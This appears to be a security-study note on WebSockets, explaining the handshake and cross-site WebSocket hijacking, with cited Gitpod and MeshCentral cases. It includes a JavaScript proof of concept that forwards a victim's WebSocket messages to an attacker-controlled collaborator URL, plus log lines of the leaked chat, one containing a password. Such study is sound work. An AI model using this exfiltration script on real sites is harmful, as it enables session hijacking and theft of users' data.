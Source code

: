 >[!question] What are WebSockets?
>WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.

# WebSockets 101

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data.

>[!tip] Tooling for testing WebSockets
>- [SocketSleuth](https://github.com/snyk/socketsleuth/) [^note]

[^note]:[Start free - SocketSleuth Improving Security Testing for WebSocket Applications  Snyk](../../Readwise/Articles/Start%20free%20-%20SocketSleuth%20Improving%20Security%20Testing%20for%20WebSocket%20Applications%20%20Snyk.md#^af3f13)
## Establishing connections

Protocols to open WebSocket:
- `wss://normal-website.com/chat`: WebSocket over TLS
- `ws://normal-website.com/chat`: clear-text WebSocket

To establish the connection, the browser and server perform a WebSocket handshake over HTTP:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

>[!note]
>WebSocket messages can contain any content or data format, although in modern web application the JSON format is the most used 

# General attacks

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as [SQL Injection](SQL%20Injection.md) or [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
- Some blind vulnerabilities reached via WebSockets might only be detectable using [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing).
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or other [Client side vulnerabilities](../Services/HTTP%20&%20HTTPS.md#Client%20side%20vulnerabilities)
- Manipulating the WebSocket handshake to exploit vulnerabilities
- Using cross-site WebSockets hijacking (CSWSH)

## Cross-site WebSockets hijacking (CSWSH)

 Cross-site WebSockets hijacking is a [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
 
 Unlike regular CSRF, the attacker gains **two-way interaction** with the compromised application. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve: 
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.


>[!example]
>PoC hosted on the attacker server performing the CSRF and leaking the received information using ws:
>
>```html
><script>
>    var ws = new WebSocket('wss://your-websocket-url');
>    ws.onopen = function() {
>        ws.send("READY");
>    };
>    ws.onmessage = function(event) {
>        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
>    };
></script>
>```
>Data exfiltrated from the victim ws:
>```http
>...
10.0.4.85       2023-01-06 21:24:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20qhakj7ncjna6l17u20as%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
|...
>```

This vulnerability was used against Gitpod to leak environment data and obtain SSH keys, bypassing [SameSite attribute on cookies](Session%20Attacks%20and%20Session%20Prediction.md#SameSite%20attribute%20on%20cookies), finally escalating to RCE. [^gitpod]
The same vulnerability was also used to get RCE against MeshCentral [^meshcentral-cswsh]

[^gitpod]: [Gitpod remote code execution 0-day vulnerability via WebSockets](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/), snyk.io
[^meshcentral-cswsh]: [MeshCentral Cross-Site Websocket Hijacking Vulnerability (CVE-2024-26135)](https://www.praetorian.com/blog/meshcentral-cross-site-websocket-hijacking-vulnerability/), praetorian.com